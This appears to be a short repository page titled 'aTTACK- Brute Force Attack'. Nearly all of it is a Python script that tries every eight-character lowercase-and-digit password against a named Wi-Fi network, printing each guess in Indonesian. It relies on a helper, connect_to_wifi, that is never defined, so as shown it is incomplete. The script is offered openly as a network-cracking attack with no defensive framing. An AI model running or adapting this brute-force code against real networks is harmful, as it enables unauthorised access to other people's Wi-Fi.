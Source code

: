 # aTTACK-
Brute Force Attack
import itertools

def brute_force(ssid, char_set):
    for password in itertools.product(char_set, repeat=8):
        password = ''.join(password)
        if connect_to_wifi(ssid, password):
            print("Password ditemukan:", password)
            return
        else:
            print("Password salah:", password)

ssid = "Nama_Wifi"
char_set = "abcdefghijklmnopqrstuvwxyz0123456789"

brute_force(ssid, char_set)
